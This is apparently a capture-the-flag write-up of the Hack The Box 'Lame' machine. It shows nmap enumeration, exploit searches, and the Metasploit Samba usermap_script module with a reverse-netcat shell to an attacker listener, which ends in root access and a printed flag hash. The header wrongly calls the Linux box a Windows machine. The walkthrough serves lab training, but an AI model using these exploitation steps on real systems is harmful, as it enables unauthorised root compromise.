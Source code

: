 ```yaml
---
layout: default
title: LAME
description: by Hack The Box
---
```


<h3 align="center">
Windows machine
</h3>

## Enumeration

1. Let's run nmap

   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ nmap 10.10.10.3 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 15:51 EST
   Nmap scan report for 10.10.10.3
   Host is up (0.030s latency).
   Not shown: 996 filtered tcp ports (no-response)
   PORT    STATE SERVICE     VERSION
   21/tcp  open  ftp         vsftpd 2.3.4
   |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | ftp-syst:
   |   STAT:
   | FTP server status:
   |      Connected to 10.10.14.3
   |      Logged in as ftp
   |      TYPE: ASCII
   |      No session bandwidth limit
   |      Session timeout in seconds is 300
   |      Control connection is plain text
   |      Data connections will be plain text
   |      vsFTPd 2.3.4 - secure, fast, stable
   |_End of status
   22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
   | ssh-hostkey:
   |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
   |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
   139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
   Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

   Host script results:
   | smb-security-mode:
   |   account_used: <blank>
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   |_smb2-time: Protocol negotiation failed (SMB2)
   | smb-os-discovery:
   |   OS: Unix (Samba 3.0.20-Debian)
   |   Computer name: lame
   |   NetBIOS computer name:
   |   Domain name: hackthebox.gr
   |   FQDN: lame.hackthebox.gr
   |_  System time: 2021-11-23T15:40:24-05:00
   |_clock-skew: mean: 2h18m37s, deviation: 3h32m08s, median: -11m23s

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 56.49 seconds
   ```

2. Let's look for vuln for these services point of interest is port 21 and port 139/445
   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ searchsploit ftpd 2.3.4
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                                                            |  Path
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   OpenBSD 2.x < 2.8 FTPd - 'glob()' Remote Buffer Overflow                                                                  | openbsd/remote/20733.c
   RhinoSoft Serv-U FTPd Server < 4.2 - Remote Buffer Overflow (Metasploit)                                                  | windows/remote/18190.rb
   vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
   vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Shellcodes: No Result
   ```
3. Let's run Metasploit
4. So in metasploit after putting in the options of rhosts... I could not get a shell. For some reason that is not vulnerable? but funny how it says that, that particular version is.
5. It is also worth noting that you can login to the box through ftp using username `anonymous` and password `anonymous`... but there really isn't much you can do there as well. I think it's due to the fact of the user privilege.
6. Back in the MSFconsole lets search for the samba 3.0 service

   ```
   msf6 > search samba 3.0

   Matching Modules
   ================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/chain_reply            2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   3  exploit/osx/samba/lsa_transnames_heap      2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   4  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


   Interact with a module by name or index. For example info 4, use 4 or use exploit/solaris/samba/lsa_transnames_heap

   msf6 > use 0
   [*] No payload configured, defaulting to cmd/unix/reverse_netcat
   msf6 exploit(multi/samba/usermap_script) > options

   Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


   Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.15.37    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


   Exploit target:

   Id  Name
   --  ----
   0   Automatic
   ```

7. It is important to note (or maybe coz im noobish) that you will need to also change the LHOST param and use your tunnel's IP add.
8. A shell is giving when you run the exploit
   ```
   whoami
   root
   ls
   bin
   boot
   cdrom
   dev
   etc
   home
   initrd
   initrd.img
   initrd.img.old
   lib
   lost+found
   media
   mnt
   nohup.out
   opt
   proc
   root
   sbin
   srv
   sys
   tmp
   usr
   var
   vmlinuz
   vmlinuz.old
   cd root
   ls
   Desktop
   reset_logs.sh
   root.txt
   vnc.log
   cat root.txt
   a89ccd5f0604b08ed6c5498c76153ae3
   exit
   ```
9. And there we have it... root.txt contains the flag!

<br><Br><br>

# References

1. https://www.exploit-db.com/exploits/49757
2. https://www.exploit-db.com/exploits/16320

<br><br>

[back to HOME](./)
